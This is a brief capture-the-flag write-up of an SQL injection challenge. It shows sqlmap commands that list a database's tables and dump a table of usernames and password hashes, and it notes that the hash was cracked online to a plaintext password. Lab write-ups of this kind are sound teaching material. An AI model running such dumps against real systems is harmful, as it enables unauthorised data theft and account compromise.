



# The Sequel
This feels like any other SQLi challenge. I decided to use sqlmap to satisfy the script kiddie inside me,


```bash
python3 sqlmap.py -r ~/r.txt --tables
```

gives us the table names,


```
python3 sqlmap.py -r ~/r.txt -T web1_db --dump
```

gives us the username, hash


The hash was present on crackstation. The password was 'wildspirit'.
